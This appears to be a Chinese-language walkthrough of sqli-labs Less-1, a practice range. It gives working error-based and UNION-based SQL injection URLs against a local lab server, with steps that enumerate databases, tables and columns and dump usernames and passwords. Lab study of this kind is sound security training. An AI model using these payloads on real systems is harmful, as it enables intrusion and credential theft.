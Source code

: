 # SQLI靶场

[![NPM](https://img.shields.io/npm/v/docsify-themeable.svg?style=flat-square)](https://www.npmjs.com/package/docsify-themeable)
[![Codacy grade](https://img.shields.io/codacy/grade/860d40719cbd4e0f91e145b87ec7c29a.svg?style=flat-square)](https://www.codacy.com/app/jhildenbiddle/docsify-themeable?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=jhildenbiddle/docsify-themeable&amp;utm_campaign=Badge_Grade)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square)](https://github.com/jhildenbiddle/docsify-themeable/blob/master/LICENSE)
[![jsDelivr](https://data.jsdelivr.com/v1/package/npm/docsify-themeable/badge)](https://www.jsdelivr.com/package/npm/docsify-themeable)
[![Tweet](https://img.shields.io/twitter/url/http/shields.io.svg?style=social)](https://twitter.com/intent/tweet?url=https%3A%2F%2Fgithub.com%2Fjhildenbiddle%2Fdocsify-themeable&hashtags=css,docsify,developers,frontend)
<a class="github-button" href="https://github.com/jhildenbiddle/docsify-themeable" data-icon="octicon-star" data-show-count="true" aria-label="Star jhildenbiddle/docsify-themeable on GitHub">Star</a>

## 第一关-GET – 基于错误 – 单引号 – 字符型
**1.添加id=1正常，id=1' 报错，报错，发现报错信息多出一个单引号，后面闭合语句也是用的单引号发现页面返回正常，说明是字符型注入，单引号。**
```
http://192.168.2.135/sqli/Less-1/?id=1'
```
  <figure class="thumbnails">
    <img src="assets/img/sqli第一关.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**2.在url中把单引号后面的语句注释掉。 返回正常，说明sql语句执行成功了，因为条件永远为真，所以正常返回**
```  
http://192.168.2.135/sqli/Less-1/?id=1' --+ 
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关1.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**3. 猜解字段数，测试到4的时候报错，说明字段数是3。**
```
http://192.168.2.135/sqli/Less-1/?id=1' order by 3--+ 
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关2.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**4.确定显位数字，发现2,3均可回显**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,3--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关3.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**5.获取当前数据库名，报错注入，数据库名为：security**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
(select database()) ,
3 --+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关4.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**65.还可以获取所有的数据库名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(schema_name) from information_schema.schemata)--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关5.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**7.获取当前数据库security的表名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(table_name) from information_schema.tables where table_schema =0x7365637572697479)--+

(security的hex编码是7365637572697479)
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关6.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**8.获取表的列名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(column_name) from information_schema.columns where table_schema =0x7365637572697479 and table_name=0x7573657273)--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关8.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>


**9.获取字段数据**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,
(select group_concat(id,0x7c,username,0x7c,password) from security.users) --+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关7.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**10.其他语句等等**

### 第一关结束！！！！




<!-- GitHub Buttons -->
<script async defer src="https://buttons.github.io/buttons.js"></script>